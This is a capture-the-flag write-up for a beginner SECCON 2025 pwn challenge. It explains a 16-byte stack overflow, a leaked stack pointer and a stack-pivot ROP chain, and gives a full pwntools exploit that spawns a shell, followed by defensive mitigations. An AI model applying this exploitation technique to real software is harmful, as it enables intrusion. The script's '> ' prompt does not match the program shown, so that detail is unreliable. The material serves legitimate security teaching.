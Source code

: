 # pivot4b - SECCON 2025 beginners pwn

## Challenge Overview

- **Category**: pwn
- **Difficulty**: Beginner
- **Points**: TBD
- **Challenge Description**: A stack pivot challenge teaching buffer overflow exploitation with ROP chain techniques

## Source Code Analysis

### Key Components

The challenge consists of a simple C program with the following key functions:

```c
// Gift functions providing useful gadgets
void gift_set_first_arg() {
    asm volatile("pop %rdi");  // pop rdi gadget at 0x40117a
    asm volatile("ret");
}

void gift_call_system() {
    system("echo \"Here's your gift!\"");  // system call at 0x40118d
}

// Main vulnerable function
int main() {
    char message[0x30];  // 48-byte buffer
    printf("Here's the pointer to message: %p\n", message);  // Address leak
    read(0, message, sizeof(message) + 0x10);  // Reads 64 bytes - 16 byte overflow!
    printf("Message: %s\n", message);
    return 0;
}
```

### Vulnerability Analysis

1. **Buffer Overflow**: The `message` buffer is 48 bytes (`0x30`), but `read()` accepts up to 64 bytes (`0x30 + 0x10`), creating a 16-byte overflow that overwrites the saved RBP and return address.

2. **Information Disclosure**: The program leaks the stack address of the `message` buffer, enabling precise calculation of target addresses.

3. **ROP Gadgets**: The gift functions provide useful gadgets:
   - `0x40117a`: `pop rdi; ret` - sets up function arguments
   - `0x40118d`: `system()` function call

### Memory Layout

```
High Address
┌─────────────────┐
│   Saved RIP     │ ← Overwrite with leave_ret (0x401211)
├─────────────────┤
│   Saved RBP     │ ← Overwrite with fake RBP (message-8)  
├─────────────────┤ ← RBP
│                 │
│   message[0x30] │ ← 48-byte buffer (leaked address)
│                 │
├─────────────────┤ ← RSP, message pointer
Low Address
```

## Security Analysis

### Binary Protections

```bash
$ checksec chall
[*] '/path/to/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found      ← Allows buffer overflow
    NX:         NX enabled           ← Prevents shellcode execution
    PIE:        No PIE (0x400000)    ← Fixed addresses
    Stripped:   No                   ← Function symbols available
```

**Key Security Implications:**
- **No Stack Canary**: Buffer overflow detection disabled
- **NX Enabled**: Code execution on stack prevented, requires ROP
- **No PIE**: Predictable addresses for gadgets and functions
- **Partial RELRO**: Some protection but GOT is partially writable

## Exploitation Strategy

### Attack Vector

The exploitation uses a **stack pivot** technique:

1. **Information Leak**: Use the leaked buffer address to calculate payload locations
2. **ROP Chain Construction**: Build a ROP chain in the buffer to call `system("/bin/sh")`
3. **Stack Pivot**: Use `leave; ret` gadget to pivot execution to the buffer
4. **Shell Execution**: Execute the ROP chain to gain shell access

### Stack Pivot Mechanism

The `leave` instruction performs:
```asm
mov rsp, rbp    ; Move stack pointer to base pointer  
pop rbp         ; Restore base pointer from stack
```

By controlling RBP (through buffer overflow) and using `leave; ret`, we redirect execution to our ROP chain stored in the buffer.

## Exploit Implementation

### Payload Structure (64 bytes total)

```python
# ROP chain stored in message buffer
payload  = p64(pop_rdi)           # 0x40117a - pop rdi; ret
payload += p64(binsh_addr)        # Address of "/bin/sh" string  
payload += p64(ret)               # 0x40101a - stack alignment
payload += p64(system)            # 0x40118d - system() function
payload += b"/bin/sh\x00"         # The command string
payload += cyclic(0x8)            # Padding to fill buffer
payload += p64(message - 8)       # Fake RBP for stack pivot
payload += p64(leave_ret)         # 0x401211 - leave; ret gadget
```

### Exploitation Flow

1. **Receive leaked address**: Parse the leaked message buffer pointer
2. **Calculate target addresses**: 
   - `binsh_addr = message + 0x20` (location of "/bin/sh" in buffer)
3. **Send payload**: Overflow buffer with ROP chain and pivot gadget
4. **Stack pivot execution**:
   - Return to `leave; ret` (0x401211)
   - Stack pivots to message buffer 
   - Execute ROP chain: `pop rdi <binsh_addr>; ret; system`
   - System executes `/bin/sh` for shell access

### Working Exploit Code

```python
from pwn import *

p = process('./chall')
e = ELF('./chall')

# Get leaked buffer address
p.recvuntil(b'message: ')
message = int(p.recvline().strip(), 16)
print(f"message buffer at: {hex(message)}")

# Gadget addresses
pop_rdi = 0x40117a      # pop rdi; ret
system = 0x40118d       # system() function
leave_ret = 0x401211    # leave; ret gadget  
ret = 0x40101a          # ret gadget for alignment

# Calculate /bin/sh location in buffer
binsh_addr = message + 0x20

# Construct ROP chain payload
payload = p64(pop_rdi)           # Set up RDI register
payload += p64(binsh_addr)       # "/bin/sh" string address
payload += p64(ret)              # Stack alignment
payload += p64(system)           # system() function call
payload += b"/bin/sh\x00"        # Command string
payload += cyclic(0x8)           # Buffer padding  
payload += p64(message - 8)      # Fake RBP
payload += p64(leave_ret)        # Pivot gadget

p.sendafter(b'> ', payload)
p.interactive()
```

## Educational Takeaways

### Key Learning Points

1. **Stack Pivot Technique**: Learn how to redirect execution when buffer space is limited by pivoting the stack to a controlled memory region.

2. **Information Disclosure Exploitation**: Understand how address leaks enable precise exploitation in non-ASLR environments.

3. **ROP Chain Construction**: Practice building Return-Oriented Programming chains to bypass NX protection.

4. **x64 Calling Conventions**: Learn how function arguments are passed via registers (RDI for first argument in System V ABI).

5. **Buffer Overflow Fundamentals**: Understand how insufficient bounds checking leads to memory corruption vulnerabilities.

### Defensive Mitigations

This attack would be prevented by:

- **Stack Canaries**: Detect buffer overflows before return address overwrite
- **ASLR/PIE**: Randomize addresses to make ROP gadgets unpredictable  
- **Control Flow Integrity (CFI)**: Restrict indirect jumps to legitimate targets
- **Input Validation**: Proper bounds checking on user input
- **Stack Protection**: Modern compilers enable stack protection by default

### Debugging Techniques Used

- **Static Analysis**: Source code review and binary analysis with objdump
- **Dynamic Analysis**: GDB debugging for gadget verification
- **Protection Analysis**: checksec for security feature enumeration
- **Address Calculation**: Precise payload construction using leaked addresses
